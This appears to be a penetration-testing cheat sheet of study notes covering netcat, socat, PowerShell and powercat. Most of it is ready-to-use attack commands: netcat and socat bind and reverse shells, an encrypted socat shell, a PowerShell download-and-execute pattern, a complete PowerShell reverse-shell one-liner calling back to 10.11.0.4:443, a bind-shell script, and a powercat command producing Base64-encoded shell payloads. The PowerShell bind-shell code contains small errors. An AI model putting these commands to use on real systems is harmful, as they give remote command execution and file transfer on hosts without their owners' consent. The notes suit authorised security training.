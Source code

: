 = Practical Tools

== Netcat

* `nc <IP> <PORT>`
** `nc -n` skip DNS resolution
** `nc -v` verbose
** `nc -l` for creating listener
** `nc -p` for creating the port

=== Bind & Reverse shell 

A reverse shell is a shell initiated from the target host back to the attack box which is in a listening state to pick up the shell. A bind shell is setup on the target host and binds to a specific port to listens for an incoming connection from the attack box.

* `nc -nvlp <PORT> -e <file>` on target
This is binding a local PORT's IO to the STDIN/STDOUT/STDERR of a file locally, to which any attack machine can connect to.

* `nc -nv <IP> <PORT> -e <file>` on target
* `nc -nvlp <PORT>` on attack machine
This is a reverse shell.

== SOCAT

Socat creates two bidirectional byte streams and transfers data between them.

* `socat - TCP4:<IP>:<PORT>`
* `socat - TCP4-LISTEN:<PORT> STDOUT` creates a listener to the STDOUT of a port
* `socat TCP4-LISTEN:<PORT>,fork file:<file>` creates a child process to send a file
* `socat TCP4:<IP>:443 file:<file>,create` receives bytes and creates a file with them
* `socat -d -d` for verbose
* `socat TCP4:<IP>:<PORT> EXEC:/bin/bash` for reverse shell
* `socat -` the hyphen represents the STDIO

=== Encrypted bind shells

* `openssl req -newkey rsa:2048 -nodes -keyout <keyfile.key> -x509 -days 365 -out <file.crt>` to create a new self-signed certificate with a new private key outputted to keyfile
* `cat <keyfile.key> <file.crt> > <pemfile>`
* `socat OPENSSL-LISTEN:443,cert=<pemfile>,verify=0,fork EXEC:/bin/bash` creates a listener with a certificate, disable verification and spawns a child to send an
* `socat - OPENSSL:<IP>:<PORT>,verify=0`

== Powershell

* `Set-ExecutionPolicy Unrestricted` changes execution policy
* `powershell -c "(new-object System.Net.WebClient).DownloadFile('<URL>', '<absolute-path>')"` downloads a file
* `iex $data` executes the command passed to it

=== Reverse shell

Use the following command as a powershell oneliner to send a reverse shell

```
$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush();
}
$client.Close();
```

Oneliner here:
`$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush();}$client.Close();`

=== Bind shell

```
$listener = New-Object System.Net.Sockets.TCPClient('0.0.0.0',443);
listener.start();$client = $listener.AcceptTcpClient();
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();
$listener.Stop();
```

In one line
`$listener = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()`

== Powercat

* In Kali, `apt install powercat` installs the script in `/usr/share/windows-resources/powercat`
* `. ./powercat.ps1` to source the script
* `powercat -c <IP> -p <PORT> -i <file>` to transfer file to remote

=== Reverse shell

* `powercat -c <IP> -p 443 -e cmd.exe` to execute cmd when connected, e.g. reverse shell

=== Bind shell

* `powercat -l` to create listener
* `powercat -l -p <PORT> -e cmd.exe` creates a listener that an attacker can connect to

=== Powercat payloads

* `powercat -c <IP> -p <PORT> -e cmd.exe -ge > encodedreverseshell.ps1` creates a Base64 encoded payload that powercat can execute
*